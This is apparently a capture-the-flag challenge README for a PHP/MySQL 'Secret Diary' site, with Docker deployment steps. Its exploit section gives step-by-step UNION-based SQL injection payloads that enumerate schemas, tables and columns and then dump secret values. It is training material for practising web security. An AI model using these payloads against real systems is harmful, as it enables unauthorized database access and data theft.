 # Name: Secret Diary

## Description

I created a website where everyone can store their secrets.
I have some confidential data here, but I am sure you can't see it.

Get the flag from http://141.85.224.118:12000/.

Score: 100

## Vulnerability

Here we have a sql injection problem, the vulnerable box is `Get your secrets!`.

## Exploit

First time you need to find out the number of columns in the table
from which the selection is made.

We have 2 columns.

- `' UNION SELECT 1, 2 FROM information_schema.schemata -- comment`

Find all schemas.

- `' UNION SELECT 1, GROUP_CONCAT(0x7c, schema_name, 0x7c) FROM information_schema.schemata -- comment`

Find all tables from `top_secret` schema.

- `' UNION SELECT 1, GROUP_CONCAT(0x7c, table_name, 0x7c) FROM information_schema.tables WHERE table_schema='top_secret' -- comment`

Find all columns in table `secrets`.

- `' UNION SELECT 1, GROUP_CONCAT(0x7c, column_name, 0x7c) FROM information_schema.columns WHERE table_name='secrets' -- comment`

Find all values in `secret` column.

- `' UNION SELECT 1, GROUP_CONCAT(0x7c, secret, 0x7c) FROM secrets -- comment`

## Environment

Web server with PHP and MYSQL support (deployable as a Docker container using files in `deploy/` folder)

## Deploy

Copy `deploy/` folder and run `make run`.

If you need to update the image and container, remove the old container with `make clean` and update the image (and container) using `make`.

It is not possible to update the container without updating the image first.

